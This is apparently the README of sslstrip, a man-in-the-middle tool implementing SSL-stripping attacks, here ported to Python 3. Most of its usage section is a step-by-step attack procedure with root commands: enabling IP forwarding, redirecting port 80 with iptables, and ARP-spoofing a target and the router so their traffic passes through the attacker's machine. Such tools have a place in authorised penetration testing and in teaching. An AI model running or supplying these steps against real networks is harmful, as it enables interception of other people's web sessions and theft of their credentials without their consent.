 sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

Ported from Python v2 to v3 by Jay Townsend (theHarvester, Discover and DNSrecon).
* [![Twitter Follow](https://img.shields.io/twitter/follow/jay_townsend1.svg?style=social&label=Follow)](https://twitter.com/jay_townsend1) Jay "L1ghtn1ng" Townsend @jay_townsend1

Installing:
   pip3 install -r requirements.txt
   Run 'python setup.py install' as root to install or run it out of the directory.  

Running:
   sslstrip can be run from the source base without installation.  
   Run 'python3 sslstrip.py -h' as a non-root user to get the command-line options.

   1. Enable IP forwarding (as root):<br>
      ```echo "1" > /proc/sys/net/ipv4/ip_forward```

   2. Setup iptables to intercept HTTP requests (as root):<br>
      ```iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>```
   
   3. Run sslstrip with the options you prefer.
	
   4. Run arpspoof to redirect traffic to your machine (as root):<br>
      ```arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>```
